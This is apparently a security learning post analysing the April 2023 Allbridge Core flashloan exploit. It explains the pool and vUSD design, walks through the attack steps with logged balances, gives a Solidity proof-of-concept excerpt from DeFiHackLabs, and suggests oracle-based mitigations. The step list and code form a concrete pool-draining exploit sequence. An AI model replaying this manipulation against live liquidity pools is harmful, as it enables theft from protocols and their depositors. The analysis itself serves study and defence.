

# Allbridge


## What's Allbridge?
Allbridge is a leading cross-chain provider, specializing in integrating EVM with non-EVM blockchains.
Their mission is to make the blockchain world borderless by providing an 
infrastructure to freely move assets between various networks


## Amount stolen
**$550k USD**

2-04-2023

## Vulnerability
Flashloan attack


## Analysis
The root cause appears to be the manipulation of the pool's swap price.
The attacker was able to act as the liquidity provider and swapper resulting in the user manipulating the price and draining funds from the pool

Each Allbridge Core liquidity pool is essentially a swap contract, 
similar to the existing decentralized exchanges like Uniswap or Curve Finance.
The difference between Allbrige's pools is the fact that liquidity is provided in just one token (unlike the regular DEXes, which require two tokens).

When liquidity is deposited, it matches the deposited amount by minting the same amount of vUSD tokens*. This token is used as an intermediary to transfer value from one pool to another (either within the same blockchain or between two different blockchains).

*vUSD token is an abstraction used within the Allbridge Core ecosystem. Technically it is not a token, as it never gets out to user balances as an actual token. However, it is easier to explain the concept of how Allbridge Core works using this “token” analogy.

To illustrate, consider bridging BUSD from the BNB Chain to USDT on Tron. The process involves swapping BUSD for vUSD, transferring the vUSD value to Tron through a cross-chain messaging protocol, and ultimately swapping vUSD for USDT on Tron. Notably, this directional swap results in a decrease in the internal price of BUSD to vUSD, while the price of USDT to vUSD increases. This dynamic encourages other participants to bridge assets in the opposite direction, seeking profitable opportunities within the Allbridge Core ecosystem.


# Proof of Concept (PoC) 



#### We initiate a flashloan of $7.5M BUSD


During the flashloan, the following steps are executed:

1. **Swap for USDT:**
   - Swap 2 million BUSD for $2M USDT.

2. **Deposit into BUSD Pool:**
   - Deposit $5M BUSD into the BUSD pool using the `deposit` function.

3. **Swap BUSD for USDT:**
   - Swap 500k BUSD for USDT.

4. **Deposit into USDT Pool:**
   - Deposit $2M USDT into the USDT pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate: 5322629245 5306461333 1`

5. **Bridge Swap:**
   - Use the bridge to swap 500k USDT for 500k BUSD, resulting in a high dividend for the previous liquidity deposit.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 4831042788 5799131323 1`


7. **Withdraw from BUSD Pool:**
   - Withdraw $5M BUSD from the BUSD pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 43730 968132265 22138`


8. **Bridge Swap for Profit:**
   - Use the bridge to swap 40k BUSD for 790k USDT, exploiting the artificial pool imbalance.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 39983730 178738726 4`

10. **Withdraw from USDT Pool:**
   - Withdraw $2M USDT from the USDT pool.

11. **Swap USDT for BUSD:**
   - Swap all USDT for BUSD.

11. **Repay Flashloan:**
    - Repay the flashloan using the repaid funds.

12. **Transfer Funds:**
    - Transfer the remaining funds to the attacker's account.
   
`Attacker BUSD balance after exploit: 549889.574365192879687841`


This sequence of actions exploits the liquidity pools, taking advantage of imbalances to maximize gains and navigate the cross-chain swaps.


```solidity
      Swap.swap(address(BUSD), address(USDT), 2_003_300 * 1e18, 1, address(this), block.timestamp);
        BUSDPool.deposit(5_000_000 * 1e18); // deposit BUSD to BUSDPool
        Swap.swap(address(BUSD), address(USDT), 496_700 * 1e18, 1, address(this), block.timestamp);
        USDTPool.deposit(2_000_000 * 1e18); // deposit USDT to USDTPool

        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.tokenBalance() / BUSDPool.vUsdBalance()
        );
        bytes32 token = bytes32(uint256(uint160(address(USDT))));
        bytes32 receiveToken = bytes32(uint256(uint160(address(BUSD))));
        BridgeSwap.swap(USDT.balanceOf(address(this)), token, receiveToken, address(this)); // BridgeSwap USDT to BUSD
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BUSDPool.withdraw(4_830_262_616); // Amplify the imbalance of vUSDbalance and tokenbalance in BUSDPool
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BridgeSwap.swap(40_000 * 1e18, receiveToken, token, address(this)); // BridgeSwap BUSD to USDT
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );
        USDTPool.withdraw(1_993_728_530);

        Swap.swap(address(USDT), address(BUSD), USDT.balanceOf(address(this)), 1, address(this), block.timestamp);
        BUSD.transfer(address(Pair), 7_522_500 * 1e18);
```

## One asset per chain

To prevent the possibility of flash loan attacks, they deployed a single liquidity pool per blockchain. Therefore, it would not be possible to execute an exploit in a single transaction. 

## Mitigation and Best Practices:

Protocols need to add security layers,
using at least two oracles to verify the price. An oracle serves as a means to obtain Real-World Data, enabling smart contracts to interact with external information. This approach would have detected anomalies, such as the mismatch where $40,000 BUSD should not have been able to purchase 700,000 USDT tokens, preventing potential vulnerabilities or exploits.


## Conclusion 

In summary, the attacker is executing a series of actions that involve swapping, depositing, and withdrawing across various pools. These actions create imbalances within the pools, leading to this vulnerability.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Allbridge_exp2.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
